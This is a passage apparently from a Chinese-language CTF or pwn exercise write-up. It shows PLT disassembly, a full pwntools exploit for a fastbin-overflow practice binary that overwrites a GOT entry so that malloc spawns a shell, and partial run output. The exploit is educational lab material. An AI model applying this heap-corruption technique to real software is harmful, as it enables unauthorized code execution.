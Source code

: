 ```
   0x4006c0 <__libc_start_main@plt>:	jmp    QWORD PTR [rip+0x20097a]        # 0x601040
   0x4006c6 <__libc_start_main@plt+6>:	push   0x5
   0x4006cb <__libc_start_main@plt+11>:	jmp    0x400660
   0x4006d0 <__gmon_start__@plt>:	jmp    QWORD PTR [rip+0x200972]        # 0x601048
   0x4006d6 <__gmon_start__@plt+6>:	push   0x6
   0x4006db <__gmon_start__@plt+11>:	jmp    0x400660
   0x4006e0 <gets@plt>:	jmp    QWORD PTR [rip+0x20096a]        # 0x601050
   0x4006e6 <gets@plt+6>:	push   0x7
   0x4006eb <gets@plt+11>:	jmp    0x400660
   0x4006f0 <malloc@plt>:	jmp    QWORD PTR [rip+0x200962]        # 0x601058
```
最终的exp
```python
#!/usr/bin/env python
from pwn import *

p = process('./fastbin-overflow')
elf = ELF('./fastbin-overflow')
context.terminal = ['tmux', 'splitw', '-h']  # 程序在在tmux中运行,


def cmd(x):
    p.recvuntil('>')
    p.sendline(x)


def malloc(i, size, s):
    cmd('1 {} {}\n{}'.format(str(i), str(size), s))


def free(i):
    cmd('2 {}'.format(str(i)))


def puts(i):
    cmd('3 {}'.format(str(i)))


system_got = elf.got['system']
sh = elf.symbols['sh']
malloc(0, 56, '\x00')
malloc(1, 56, '\x00')
free(1)
free(0)
malloc(2, 56, '\x00' * 56 + p64(0x41) + p64(system_got - 6))  # overflow出现在这里
gdb.attach(p)
raw_input('#')
malloc(3, 56, '\x00')                               #这个malloc调用出了p64(0x41) + p64(system_got - 6),这个chunk
payload = 'sh' + 28 * '\x00' + p64(sh)
malloc(4, 56, payload)                              #这个malloc出了伪造的chunk
malloc(4, system_got + 10, '\x00')                  #malloc函数地址被改成了system,malloc(size)变成了 system("sh")
p.interactive()

```
运行结果
```
python mortyexp.py 
[+] .tarting local process './fastbin-overflow-morty': pid 21224
[*] '/home/winesap/2016/w11/fastbin-overflow/fastbin-overflow-morty'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
```